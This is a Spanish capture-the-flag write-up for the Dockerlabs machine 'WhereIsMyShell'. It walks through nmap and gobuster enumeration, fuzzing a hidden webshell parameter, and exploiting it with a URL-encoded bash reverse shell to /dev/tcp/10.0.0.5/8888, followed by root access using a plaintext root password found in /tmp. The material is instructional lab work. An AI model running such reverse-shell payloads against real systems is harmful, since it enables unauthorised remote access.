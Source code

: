 # Write-up: 

- **Nombre de la máquina:** `WhereIsMyShell` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Fácil`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
```	
ping 172.17.0.2
```

Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux.

![](Imagenes/222.png)
#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                                |
| ------ | -------- | ------------- | ------------------------------------ |
| 80     | http     | Apache 2.4.57 | Iniciaremos por aquí. No hay otro XD |

/
![](Imagenes/223.png)

Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el puerto :80

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://172.17.0.2.
    Vemos una frase : "==Pista==: "Guardo un secretito en /temp;)"
    ![](Imagenes/224.png)
- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
    No encontramos nada relevante
	![](Imagenes/225.png)
- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `/backup`--> X
	- `/uploads`--> X
	- `test, etc.`--> X
    
    No encontramos nada
#### Enumeración Automática:
- Lanzamos la herramienta `whatweb` para que nos de información sobre la aplicación web. 
```
whatweb 172.17.0.2
```

![](Imagenes/226.png)

Nada relevante. 


- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://172.17.0.2/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```

![[Captura de pantalla 2025-08-21 193847.png]]
**Hallazgos:**
Vemos  rutas llamativas:
- 172.17.0.2/shell.php: 
  Podemos ver una página en blanco...
	
- 172.17.0.2/warning.html:
	Podemos leer: `Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo... `
![](Imagenes/227.png)

Teniendo como pista que existe un parámetro que no recuerda haremos fuzzing a `shell.php` y encontramos el parámetro :

![](Imagenes/228.png)


Con el que hemos podido ejecutar la consola en `shell.php`
![](Imagenes/229.png)

Si hemos podido ejecutar comandos en una consola, utilizaremos esta brecha para ejecutar una `revershell`



---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Ejecutaremos la revershell en dos pasos sencillos:
1. Levantaremos un puerto de escucha, en nuestro caso el 8888
```
   sudo nc -nvlp 8888
```
   
3. Generaremos un código en https://www.revshells.com/ que abusando de la vulnerabilidad que hemos encontrado`RCE- Ejecución remota de comandos`  nos ejecutara la revershell y tendremos acceso desde nuestra terminal. 
   
```
 http://172.17.0.2/shell.php?parameter=bash%20-c%20%22/bin/bash%20-i%20%3E%26%20/dev/tcp/10.0.0.5/8888%200%3E%261%22
```

![](Imagenes/230.png)


---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

¿A qué grupo pertenezco?
`id`

![](Imagenes/231.png)
¿Qué usuario hay en el sistema?
¿Qué usuario tienen una shell asignada?

![](Imagenes/232.png)



#### Búsqueda del Vector de Escalada:

Si recordamos en la pista encontrada anteriormente nos decían que escondían un secreto en `/tmp`. Lo revisamos:
`/tmp`:

![](Imagenes/233.png)

Encontramos el archivos `.secret.txt` donde encontramos la contraseña de `root`
![](Imagenes/234.png)

**Credenciales obtenidas:**
- **Usuario:** `root`
- **Contraseña:** `contraseñaderoot123`

### 4.2. Explotación y Escalada a Root

Probamos las credenciales encontradas y BINGO🚀 
![](Imagenes/235.png)



SOMOS ROOT🚀


